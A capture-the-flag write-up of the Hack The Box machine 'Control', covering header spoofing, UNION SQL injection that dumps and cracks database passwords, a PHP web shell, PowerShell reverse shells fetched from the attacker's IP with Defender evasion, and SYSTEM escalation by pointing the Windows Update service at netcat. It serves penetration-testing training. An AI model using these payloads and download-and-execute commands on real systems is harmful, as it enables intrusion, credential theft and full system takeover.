

# Control

This is the write-up for the box Control that got retired at the 25th April 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.167    control.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/control.nmap 10.10.10.167
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Fidelity
135/tcp  open  msrpc   Microsoft Windows RPC
3306/tcp open  mysql?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The title of the web page is _"Fidelity"_ and there are four options in the menu on the top right.
- Home --> _/index.php_
- About --> _/about.php_
- Admin --> _/admin.php_
- Login --> _/admin.php_

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.167 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It found the following directories and files:
- _/uploads_ (403 Forbidden)
- _/database.php_ (200 OK)
- _/view_product.php_ (200 OK)

The page on _/database.php_ forwards to a blank page and _/view_product_ shows a spinning circle as if something is loading.
Even though the access to _/uploads_ is denied, it may be possible to enumerate files in there:
```
gobuster -u http://10.10.10.167/uploads/ dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It found the following PHP files:
- _/shell.php_ (200 OK)
- _/rev.php_ (200 OK)
- _/rev2.php_ (200 OK)

All of those show the text _"NO"_ and the parameter and how those scripts work are unknown.

The HTML source code of _index.php_ has a comment that contains potentially interesting information:
```
(...)
<!-- To Do:
			- Import Products
			- Link to new payment system
			- Enable SSL (Certificates location \\192.168.4.28\myfiles)
(...)
```

The link on _admin.php_ forwards to a page that only shows the following text:
```
Access Denied: Header Missing. Please ensure you go through the proxy to access this page
```

An HTTP header for proxies is for example the **[X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)** header, that may be missing.

Creating a wordlist _(headers.list)_ with potential candidates for the header:
```
X-Forwarded-For
X-Real-IP
X-Forwarded-Host
X-Original-IP
```

Fuzzing the headers with **wfuzz**:
```
wfuzz -u http://10.10.10.167 -H FUZZ:127.0.0.1 -w headers.list
```

It works, but the results are all the same, so it probably needs a valid IP address.
The proxy could be the IP _192.168.4.28_ that is mentioned in the comment found earlier:
```
GET /admin.php HTTP/1.1
Host: 10.10.10.167
X-Forwarded-For: 192.168.4.28
(...)
```

After intercepting the request with a web proxy like **Burpsuite** and adding the **X-Forwarded-For** header, it shows the application behind _admin.php_:


> NOTE: The header will not be sent on every request, so it should be saved in Burpsuite to keep access to the application:

```
Burpsuite --> Proxy --> Options --> Match and Replace --> Add
```


### Exploiting the Web Application

The web application on _admin.php_ has several functionalities:
- _Find Products_
	- Input field to search through products
- _Latest Products_
	- View, update, delete products
- _Create product_
	- Three input fields to create products: name, quantity, price
- _Categories_
	- Input fields to update or delete categories
- _Create Category_
	- Input field to create category

As there are many different input fields, there may be **SQL Injection vulnerabilities** in one of them.

After sending a single quote (') to the input fields, the _"Find Products"_ feature responds with a SQL error:
```
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
(...)
X-Forwarded-For: 192.168.4.28

productName=p'
```



```
Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''p''' at line 1
```

Testing **UNION SQL Injection** to get the number of columns:
```
(...)
productName=p' order by 5-- -

productName=p' order by 6-- -

productName=p' order by 7-- -
```

At 7 it shows a different error, which means that there are 7 columns:
```
Error: SQLSTATE[42S22]: Column not found: 1054 Unknown column '7' in 'order clause'
```

So it is possible to inject own strings into the response:
```
productName=p' union select test,2,3,4,5,6 -- -
```

Instead of injecting random strings, SQL queries will be used to get information out of the database:
```
productName=p' union select (user()),2,3,4,5,6 -- -
```
```
manager@localhost
```

Enumerating the databases with the **INFORMATION_SCHEMA**:
```
productName=p' union select (select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),2,3,4,5,6 -- -
```
```
information_schema,mysql,warehouse
```

Displaying the tables in the _warehouse database_:
```
productName=p' union select (select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA = 'warehouse'),2,3,4,5,6 -- -
```
```
product,product_category,product_pack
```

Displaying the columns of the tables in the _warehouse database_:
```
productName=p' union select (select group_concat(TABLE_NAME,":",COLUMN_NAME SEPARATOR '\n') from INFORMATION_SCHEMA.COLUMNS where TABLE_SCHEMA = 'warehouse'),2,3,4,5,6 -- -
```
```
product:id
product:name
product:quantity
product:category
product:price
product:tax
product_category:id
product_category:category
product_pack:id
product_pack:pack_id
product_pack:pack_name
product_pack:product
product_pack:quantity
```

Displaying the data in one of the tables:
```
productName=p' union select (select group_concat(name,price SEPARATOR '\n') from warehouse.product),2,3,4,5,6 -- -
```
```
Cloud Server20
TP-LINK TL-WN722N v360
D-Link DWA-17129
TP-LINK Archer T2UH v2111
Asus USB-AC53 Nano11
TP-LINK TL-WN725N v319
StarTech USB867WAC22100
Asus USB-AC68100
```

These tables have no interesting data, but the password hashes of the users can also be enumerated:
```
productName=p' union select (select group_concat(User,":",Password SEPARATOR '\n') from mysql.user),2,3,4,5,6 -- -
```
```
root:*0A4A5CAD344718DC418035A1F4D292BA603134D8
manager:*CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
hector:*0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
```

Deleting the asterisk symbol _(*)_ and cracking the hashes with **Hashcat**:
```
hashcat --user -m 300 control_mysql.hash /usr/share/wordlists/rockyou.txt
```

After a while the hashes of _hector_ and _manager_ will be cracked:
```
manager:l3tm3!n
hector:l33th4x0rhector
```

### Reading Files from the System

The **SQL Injection** can be used to read files from the file system of the box:
```
productName=p' union select (select TO_BASE64(LOAD_FILE('C:\\inetpub\\wwwroot\\uploads\\shell.php'))),2,3,4,5,6 -- -
```
```
//5OAE8A
```
```
echo //5OAE8A | base64 -d
```

After decoding the Base64-string, it just says _"NO"_ like on the web page, so the files in the _/uploads_ directory are not useful.

Displaying contents of _database.php_:
```
productName=p' union select (select TO_BASE64(LOAD_FILE('C:\\inetpub\\wwwroot\\database.php'))),2,3,4,5,6 -- -
```

After decoding the Base64-string, it shows the code of _database.php_ which contains credentials to the database:
```
(...)
private static $dbName = 'warehouse' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'manager';
private static $dbUserPassword = 'l3tm3!n';
(...)
```

### Uploading a Web Shell

Lets upload a test file with the **OUTFILE** commmand:
```
productName=p' union select ("test"),2,3,4,5,6 INTO OUTFILE 'C:\\inetpub\\wwwroot\\test.txt'-- -
```

It first shows a general error, but after sending the request again, it shows that the file exists, so the upload worked:
```
Error: SQLSTATE[HY000]: General error: 1086 File 'C:\inetpub\wwwroot\test.txt' already exists
```

This proofs that it is possible to upload files and the **DUMPFILE** command will be used to upload a web shell:
```
productName=p' union select ("<?php system($_REQUEST['cmd']) ?>"),2,3,4,5,6 INTO DUMPFILE 'c:\\inetpub\\wwwroot\\shell.php'-- -
```

The PHP shell gets uploaded and can be accessed from the web root directory:
```
http://10.10.10.167/shell.php?cmd=whoami
```

By testing the command `whoami`, it responds with the username _"authority\iusr_" and proofs command execution.
The reverse shell I will upload is _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts**:
```
POST /shell.php HTTP/1.1
Host: 10.10.10.167
(...)

cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/revshell.ps1')"
```

It gets successfully downloaded, but it did not start a reverse shell connection.
That is because of **Windows Defender** which blocks the execution of the function name _"Invoke-PowerShellTcp"_.

After changing the name of the function and sending the request, the listener on my IP and port 9001 starts a reverse shell as _iusr_.

## Privilege Escalation

There is another user on the box called _hector_ and we cracked a password for this user earlier.
Lets test if the password can be used to escalate privileges to this user:
```
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlain -Force

$cred = New-Object System.Management.Automation.PSCredential('.\hector', $pass)

Invoke-Command -Computer Fidelity -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/revshell_9002.ps1') }
```

The listener on my IP and port 9002 starts a reverse shell connection as _hector_.

### Privilege Escalation to Administrator

To get an attack surface on the box, it is recommended to run any **Windows Enumeration Script**:
```
wget http://10.10.14.9/winPEAS.exe' -o winPEAS.exe

.\winPEAS.exe
```

The PowerShell history can be found in _C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt_ and it contains the last ran commands from the user:
```
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

The first command lists all the running services on the box.

The second command shows the registry key _"HKLM:\SYSTEM\CurrentControlSet"_ which contains a string in [SDDL format](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) that shows the permissions of the user _hector_.

Translating the **SDDL** to make it humanly readable:
```
acl = get-acl HKLM:\SYSTEM\CurrentControlSet\Services

ConvertFrom-SddlString -Sddl $acl.Sddl -type RegistryRights | Foreach-Object {$_.DiscretionaryAcl}
```
```
NT AUTHORITY\Authenticated Users: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)

NT AUTHORITY\SYSTEM: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

BUILTIN\Administrators: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

CONTROL\Hector: AccessAllowed (ChangePermissions, CreateLink, CreateSubKey, Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)

APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES: AccessAllowed (EnumerateSubKeys, ExecuteKey, Notify, QueryValues, ReadPermissions)
```

This lists all permission for every user and _hector_ has _FullControl_ in the registry for the services, so a service that runs as _SYSTEM_ can be abused to escalate privileges.

Getting into the registry:
```
cd HKLM:

cd SYSTEM\CurrentControlSet\Services

Get-ChildItem
```

Searching for services that run as _SYSTEM_:
```
$services = Get-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\*

$services | select ObjectName

$services | where { ($_.ObjectName -match 'LocalSystem') }
```

Searching for services that start up manually [(field number 3)](https://docs.microsoft.com/en-us/dotnet/api/system.serviceprocess.servicestartmode?view=dotnet-plat-ext-5.0):
```
$services | where { ($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3') }
```

Searching for services where _hector_ has permissions to start:
```
$filtered = $services | where { ($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3') }

$names = $filtered.PSChildName

$canStart = foreach ($service in $names) { $sddl = (cmd /c sc sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { $service } }
```

The variable _$canStart_ now contains all services that are run by _LocalSystem_, start up manually and the user _hector_ can start:
```
ConsentUxUserSvc
DevicesFlowUserSvc
PimIndexMaintenanceSvc
PrintWorkflowUserSvc
seclogon
UnistoreSvc
UserDataSvc
WaaSMedicSvc
wuauserv
```

I will use the _wuauserv_ service, which is the **Windows Update** process.

Displaying properties of service:
```
Get-Item wuauserv
```
```
(...)
ImagePath  :  C:\Windows\system32\svchost.exe -k netsvcs -p
(...)
```

The _ImagePath_ property will be changed to an executable that will execute a reverse shell.

Uploading **Netcat for Windows** onto the box:
```
wget 10.10.14.9/nc.exe -o nc.exe
```

Changing the _ImagePath_ to the path of `nc.exe`:
```
Set-Itemproperty -Path wuauserv -Name ImagePath -Value "C:\Windows\System32\Spool\Drivers\Color\nc.exe 10.10.14.9 9003 -e powershell"
```

Starting the service:
```
Start-Service wuauserv
```

After starting the service, the listener on my IP and port 9003 will start a reverse shell as _NT Authority\SYSTEM_!
